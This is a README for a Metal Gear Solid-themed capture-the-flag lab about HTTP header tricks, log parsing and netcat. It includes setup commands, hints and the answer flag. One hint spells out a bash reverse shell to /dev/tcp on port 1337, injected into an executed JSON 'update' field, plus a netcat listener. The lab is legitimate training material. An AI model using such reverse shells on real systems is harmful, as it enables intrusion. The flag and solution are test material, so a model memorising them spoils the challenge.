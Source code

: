 # Metal Gear Solid CTF Challenge

## Difficulty rating 
![stars](https://starrating-beta.vercel.app/3/) *100 points*
\
Requires solid HTTP fundamentals, bash/netcat familiarity, header manipulation, log parsing, and basic reverse shell crafting. Also, the hints are quite vague

### **Description**
An infiltration-themed web and network CTF challenge where participants navigate a network to uncover a patriots passkey. Exploit HTTP, the shell and misconfigured requests to retrieve hints and find the flag.
Requires understanding of HTTP headers, web requests, log analysis, base64 encoding, reverse shells, and  TCP networking + tools like curl, nmap, and netcat.
\
\
**Catagory:**
Web Exploitation / Network Services

### **How to run**

#### Requirements
- [docker](https://www.docker.com/)  > 28.1.1
- [containerlabs](https://containerlab.dev/) > 0.68.0

In the projects root directory, run:
```
sudo containerlab deploy --topo topology.yml
```
to destroy:
```
sudo containerlab destroy --topo topology.yml
```

<br>

> [!IMPORTANT]
> the loadbalancer is exposed on port 8080. Depending on if your running this inside a VM or wsl, you may have to use the ip of that followed by :8080

> [!NOTE]
> It may take a while to load and you may recieve 503 errors for the first 20 seconds depending on your internet and pc

### Hints
<details>
<summary>Hint 1: first curls</summary>
<br>
Curl each webserver individually. Correct the typo in S3cr3t/paslyword to secret/password. Find a way to show the response headers in curl when you curl with `Accept: application/secret`
</details>

<details>
<summary>Hint 2: after you've done the web3 challenge</summary>

Combine everything together, /top/secret/password?condition=trust with  `Accept: application/secret`. This is valid on any webserver
</details>

<details>
<summary>Hint 3: once ssh'd in</summary>
<br>
find / -name "*json" 2> /dev/null. The update property has echo in its string, suggesting its executing it. Use a reverse shell and net cat to establish connectiion
</details>

<details>
<summary>Hint 3: continued</summary>
<br>
bash -i >& /dev/tcp/web3/1337 0>&1 then after saving the file: nc -lvnp 1337 
</details>

<details>
<summary>Flag:</summary>
<br>
flag{PATRIOT_PASS} 
</details>

## How to solve
This video has audio and is in 1.5x speed

https://github.com/user-attachments/assets/14aa9844-b534-4b56-a318-14a6dd87ef13


